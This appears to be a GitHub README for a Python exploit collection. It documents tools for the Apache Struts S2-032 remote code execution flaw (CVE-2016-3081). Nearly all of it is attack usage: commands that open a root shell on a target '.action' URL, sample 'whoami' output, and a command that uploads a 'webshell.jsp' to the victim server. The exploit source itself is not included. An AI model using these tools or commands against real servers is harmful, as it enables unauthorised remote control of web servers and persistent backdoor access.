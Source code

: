 # PyEXP
The EXP coding by python,and I'll publish the popular EXP here.<br>

##s2-032_cmd.py

USG:<br>
python s2-032_cmd.py http://x.y.z/*.action<br>
use '\q' to exit the shell

##s2-032_all.py

usage: s2-032_all.py [-h] [--cmd] [--url URL] [-f FILENAME] [-d SHELLNAME]<br>

CVE-2016-3081 | Apache Struts S2-032<br>

optional arguments:
  -h, --help    show this help message and exit<br>
  --cmd         drop into shell-like RCE<br>
  --url URL     specifiy the url of the target<br>
  -f FILENAME   specifiy loacl filename of the file you want to upload<br>
  -d SHELLNAME  specifiy remote filename upload on the server<br>
  
  use it like this:<br>
  python s2-032_all.py --cmd --url http://localhost/hello.action<br>
  \# whoami<br>
  root<br>
  \# \q<br>
  Bye!<br>
  
  python s2-032_all.py -f wanger.txt -d webshell.jsp --url http://localhost/hello.action<br>
  File upload success!<br>
  http://loacalhost/webshell.jsp<br>
  

